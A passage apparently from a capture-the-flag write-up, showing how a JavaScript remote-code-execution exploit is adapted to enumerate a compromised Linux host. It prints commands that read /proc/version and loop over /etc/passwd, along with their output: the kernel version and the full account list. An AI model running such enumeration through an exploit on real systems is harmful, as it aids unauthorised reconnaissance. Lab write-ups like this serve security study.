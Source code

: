 Replace the `whoami` part of the JS exploit with the following commands to get OS and user information.

**Command** -

```bash
(cat /proc/version || uname -a ) 2>/dev/null
```

**Output** -

```bash
Linux version 5.15.0-88-generic (buildd@lcy02-amd64-058) (gcc (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #98-Ubuntu SMP Mon Oct 2 15:18:56 UTC 2023

```

**Command** -

```bash
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort
```

**Output** -

```bash
uid=0(root) gid=0(root) groups=0(root)
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
uid=1001(svc) gid=1001(svc) groups=1001(svc)
uid=100(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=101(systemd-network) gid=102(systemd-network) groups=102(systemd-network)
uid=102(systemd-resolve) gid=103(systemd-resolve) groups=103(systemd-resolve)
uid=103(messagebus) gid=104(messagebus) groups=104(messagebus)
uid=104(systemd-timesync) gid=105(systemd-timesync) groups=105(systemd-timesync)
uid=105(pollinate) gid=1(daemon) groups=1(daemon)
uid=106(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(syslog) gid=113(syslog) groups=113(syslog),4(adm)
uid=108(uuidd) gid=114(uuidd) groups=114(uuidd)
uid=109(tcpdump) gid=115(tcpdump) groups=115(tcpdump)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=110(tss) gid=116(tss) groups=116(tss)
uid=111(landscape) gid=117(landscape) groups=117(landscape)
uid=112(usbmux) gid=46(plugdev) groups=46(plugdev)
uid=113(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=114(fwupd-refresh) gid=122(fwupd-refresh) groups=122(fwupd-refresh)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=998(_laurel) gid=998(_laurel) groups=998(_laurel)
uid=999(lxd) gid=100(users) groups=100(users)
uid=9(news) gid=9(news) groups=9(news)
```
